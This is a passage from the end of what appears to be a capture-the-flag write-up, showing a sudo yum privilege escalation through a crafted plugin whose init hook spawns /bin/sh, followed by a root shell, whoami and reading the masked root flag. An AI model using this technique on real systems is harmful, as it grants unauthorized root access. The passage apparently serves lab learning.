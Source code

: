 ```bash
requires_api_version='2.1'
def init_hook(conduit):
  os.execl('/bin/sh','/bin/sh')
EOF

sudo yum -c $TF/x --enableplugin=y
```
### Root Flag
```bash
sh-4.2# whoami
root
sh-4.2# cat root/root.txt
eecxxxxxxxxxxxxxxxxxxf79
sh-4.2#
```
Congratulations! We have completed the room!
